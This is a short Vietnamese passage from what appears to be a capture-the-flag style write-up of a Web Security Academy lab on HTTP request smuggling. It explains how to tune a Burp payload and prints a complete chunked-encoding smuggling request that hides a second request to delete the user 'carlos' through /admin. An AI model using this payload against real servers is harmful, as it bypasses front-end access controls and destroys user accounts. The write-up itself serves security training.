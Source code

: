 Dùng payload mà burp cung cấp và chỉnh sửa theo ý để lấy `/admin`:\
![alt text](image-17.png)
Chú ý `71` là độ dài 7*16+1 byte của:
```http
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```


payload:
```http
POST / HTTP/1.1
Host: 0ab0009d04589f0f819e343200c0009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 24

f
c306l=x&tkmp1=x
88
POST /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
---
